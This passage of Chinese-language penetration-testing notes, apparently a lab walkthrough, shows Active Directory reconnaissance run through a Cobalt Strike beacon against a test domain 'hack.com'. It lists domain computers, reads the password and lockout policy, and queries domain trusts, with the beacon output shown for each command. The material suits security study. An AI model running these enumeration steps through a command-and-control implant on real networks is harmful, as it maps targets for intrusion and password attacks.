 - 查询域成员计算机列表--> 查询其他的组信息只需要替换group后面的组信息即可-->例如查询it部门:`net group "it" /domain`

  - net group "domain computers" /domain

  - ```cmd
    beacon> shell net group "domain computers" /domain
    [*] Tasked beacon to run: net group "domain computers" /domain
    [+] host called home, sent: 67 bytes
    [+] received output:
    这项请求将在域 hack.com 的域控制器处理。
    
    组名     Domain Computers
    注释     加入到域中的所有工作站和服务器
    
    成员
    
    -------------------------------------------------------------------------------
    DESKTOP-ULOHV3S$         WIN2003-B03F649$         WIN-2012$                
    WIN-EGADN6TCGH9$         
    命令成功完成。
    ```

- 获取域密码信息--获取域密码策略、密码长度、错误锁定

  - ```cmd
    beacon> shell net accounts /domain
    [*] Tasked beacon to run: net accounts /domain
    [+] host called home, sent: 51 bytes
    [+] received output:
    这项请求将在域 hack.com 的域控制器处理。
    
    强制用户在时间到期之后多久必须注销?:     从不
    密码最短使用期限(天):                    1
    密码最长使用期限(天):                    42
    密码长度最小值:                          7
    保持的密码历史记录长度:                  24
    锁定阈值:                                从不
    锁定持续时间(分):                        30
    锁定观测窗口(分):                        30
    计算机角色:                              PRIMARY
    命令成功完成。
    ```

- 获取域信任信息

  - ```cmd
    beacon> shell nltest /domain_trusts
    [*] Tasked beacon to run: nltest /domain_trusts
    [+] host called home, sent: 52 bytes
    [+] received output:
    域信任的列表:
        0: HACK hack.com (NT 5) (Forest Tree Root) (Primary Domain) (Native)
    此命令成功完成
    ```

### 查询域控制器

